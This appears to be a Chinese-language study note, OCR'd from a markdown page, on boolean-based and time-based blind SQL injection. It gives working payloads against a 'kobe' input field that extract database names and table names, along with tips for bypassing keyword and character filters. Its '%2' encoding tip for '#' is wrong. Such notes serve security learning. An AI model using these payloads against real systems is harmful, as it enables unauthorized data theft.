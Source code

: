 # 盲注

## 一、原理

当程序设计时，屏蔽了报错信息，造成无法判断sql注入结果的一种注入手段。分为两种

一种为真假盲注，boolean;另一种为时间盲注，time

## 二、实践

#### 基于真假的盲注

基于真假的盲注只会返回true or fause两种情况，判断很麻烦，需要使用程序.这玩意好像只能用and

##### 0.判断

输入参数看返回情况

##### 1.判断字符长度

```
kobe' and length(database())>8#
```

使用lenth函数得到database的长度，然后比较长度

#### 2.判断字符

```
kobe' and ascii(substr(payload,1,1))>119#
```

```
kobe' and ascii(substr(database(),1,1))>119#
```

查询表名

```
kobe' and ascii(substr((select 1,table_name from information_schema.tables where table_schema= database() limit 0,1),1,1))>111#
```

substr函数从database（）从第一个字符开始，取第一个值，然后经过ascii编码比较大小判断字符

#### 基于时间的盲注

基于时间的盲注，额，前端没啥响应，是否存在时间注入，主要看响应的时间。可以使用网络控制台

一般基于时间的注入，可以调用sleep()函数

测试是否存在时间注入

```
kobe' and sleep(2)#
```

构成载荷 

```
kobe' and if((substr(payload,1,1))='a',sleep(5),null)#
```

下面这一段可以作为payload，也可以使用ascii码进行比较判断字符。

```
(substr(payload,1,1))='a'
```

判断数据库名

```
kobe' and if((substr(database(),1,1))='a',sleep(5),null)#
```

## 三、注意

用工具，需耐心<u></u>

<u>***一般程序会对一些函数进行过滤，如select 可以使用复写的方式绕过，如selselectect 进行绕过。***</u>

***<u>对一些字符可能也会存在过滤，可以使用url编码的方式进行绕过，如#可以用%2代替</u>***


